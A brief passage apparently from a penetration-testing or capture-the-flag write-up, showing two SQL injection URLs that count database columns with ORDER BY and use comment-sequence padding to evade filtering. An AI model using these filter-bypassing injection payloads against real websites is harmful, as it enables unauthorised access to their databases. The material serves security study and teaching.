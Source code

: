 ```
http://172.16.8.8/product.php?id=12'/*%!AA*/order/*%!AA*/by/*%!AA*/7 -- -
```

![](/images/2018-half-year-wp/4.png)

```
http://172.16.8.8/product.php?id=12'/*%!AA*/order/*%!AA*/by/*%!AA*/6 -- -
```

![](/images/2018-half-year-wp/5.png)
